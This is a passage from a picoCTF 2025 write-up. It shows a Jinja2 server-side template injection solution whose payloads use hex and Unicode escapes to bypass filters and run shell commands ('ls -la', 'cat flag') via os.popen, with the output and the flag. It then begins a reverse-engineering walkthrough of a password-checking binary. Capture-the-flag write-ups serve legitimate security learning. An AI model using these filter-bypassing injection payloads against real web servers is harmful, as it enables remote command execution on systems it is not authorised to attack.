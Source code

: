 ![image.png](Pico%20CTF%E2%80%9925%201b096dd5262f801da22feb57955361ab/image%208.png)

- First, I needed to determine what was available on the system. Using a Unicode-encoded command to bypass character filters, I listed the contents of the current directory:

```bash
{% set POP = "\u006c\u0073\u0020\u002d\u006c\u0061" %}
{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')(POP)|attr('read')() }}
```

```bash
Output: total 12
drwxr-xr-x 1 root root 25 Mar 15 14:20 .
drwxr-xr-x 1 root root 23 Mar 15 14:20 ..
drwxr-xr-x 2 root root 32 Mar 15 14:20 __pycache__
-rwxr-xr-x 1 root root 1841 Mar 6 03:27 app.py
-rw-r--r-- 1 root root 36 Mar 6 03:40 flag
-rwxr-xr-x 1 root root 268 Mar 6 03:27 requirements.txt
```

- After identifying that the flag file was named `flag` (not flag.txt) in the current directory, I crafted a payload to read its contents:

```bash
{% set POP = "\u0063\u0061\u0074\u0020\u0066\u006c\u0061\u0067" %}
{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')(POP)|attr('read')() }}

```

### Flag

**picoCTF{sst1_f1lt3r_byp4ss_8b534b82}**

![image.png](Pico%20CTF%E2%80%9925%201b096dd5262f801da22feb57955361ab/image%209.png)

---

# Perplexed

- The binary when analyzed with binary ninja, prompts the user for the password using fgets and called check to validate the password.
- If it was valid it printed Correct!! :D otherwise Wrong :(
- The check functions does these verifications
    - The size must be 27 bytes long
    - It compares the password with a hardcoded comparison array, using custom alg
        - It iterates through each byte of the comparison array
        - For each byte, it iterates through each bit
        - It compares each bit from the comparison array with a corresponding bit from the input
        - If any bit doesn't match, it returns 1 (failure)
    - But the mapping of the bits was unclear; so with help of AI
        - It uses two variables: `var_1c_1` (byte index) and `var_20_1` (bit index within the byte)
        - It starts with `var_20_1 = 0` but immediately increments it to 1 for the first bit
        - For each bit of the comparison array, it checks if the corresponding bit in the input matches
        - After each comparison, it increments `var_20_1`
        - When `var_20_1` reaches 8, it resets to 0 and increments `var_1c_1` to move to the next byte

